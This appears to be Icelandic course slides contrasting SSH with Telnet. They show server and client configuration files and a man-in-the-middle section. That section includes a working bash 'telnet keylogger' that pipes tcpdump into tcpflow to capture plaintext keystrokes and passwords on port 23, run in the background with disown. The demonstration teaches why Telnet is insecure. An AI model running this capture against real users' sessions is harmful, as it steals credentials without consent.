






## SSH server 
#### vs 
## Telnet server

---

## ssh server

```console
openssh-server
```

* `sshd` - OpenSSH SSH daemon

----

## SSH config

```
/etc/ssh/sshd_config
```

```config
PasswordAuthentication no
```

----





----

## ssh client

```
~/.ssh/config
```

```conf
Host jotunn.rhi.hi.is
  IdentityFile ~/.ssh/jotunn_hpc
Host hekla.rhi.hi.is
  IdentityFile ~/.ssh/hekla
Host github.com
  HostName github.com
  IdentityFile ~/.ssh/git_hub
  User git
HOST localhost
  IdentityFile ~/.ssh/local
```

---

## Telnet server

```console
xinetd
telnetd
```

* `xinetd` - the extended Internet services daemon

* `telnetd` - DARPA telnet protocol server

----

```
/etc/xinetd.d/telnet
```

```conf
# default: on
# description: The telnet server serves telnet sessions; it uses
# unencrypted username/password pairs for authentication.
service telnet
{
  disable = no
  socket_type = stream
  wait = no
  user = root
  server = /usr/sbin/in.telnetd
  log_on_failure += USERID
}
```

----



---



---

## Man-in-the-middle attacks

Nota þessa tvo *packet-analyzer*/*packet-sniffer*
* tcpdump
* tcpflow

----

## ssh




----

## telnet


----

## Password og keylogger




---

## Skriptu keylogger

```bash
#!/bin/bash
  
# Uses tcpdump to extract keystrokes from a telnet session
# on localhost port 23 and tcpflow to format output

# Check if user is running as root
if [[ $EUID -ne 0 ]]; then
    echo "Please run as root:"
    echo "sudo $0"
    exit 1
fi

# Output file
keylog=$PWD/keylogs

# Log keystrokes to port 23
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r - >> $keylog
```

```
sudo ./telnet_keylogger.sh & disown
```

---

## Skipanir

Keylogger + **stdout**
```
sudo tcpdump 'tcp src port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```

Keylogger
```
sudo tcpdump 'tcp dst port 23 and tcp[13] & 8 != 0' -i lo -l -w - | tcpflow -C -r -
```

----

* <span style="color:blue">`tcpdump`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`tcp dst port 23`</span>
  * Hlustum á allt sem er sent á port 23
* <span style="color:blue">`tcp[13] & 8 != 0`</span>
  * Síum þannig að **psh** pakkar eru skoðaðir
* <span style="color:blue">`-i lo`</span>
  * Við hlustum á localhost
* <span style="color:blue">`-l`</span>
  * Buffer á **stdout**
* <span style="color:blue">`-w -`</span>
  * Prentum beint út í **stdout**

----

* <span style="color:blue">`tcpflow`</span>
  * Forrit til að fylgjast með umferð á *network*
* <span style="color:blue">`-C`</span>
  * Prentar út í **stdout** án tcp header
* <span style="color:blue">`-r`</span>
  * Les út úr **stdout**, parað með `-w`
----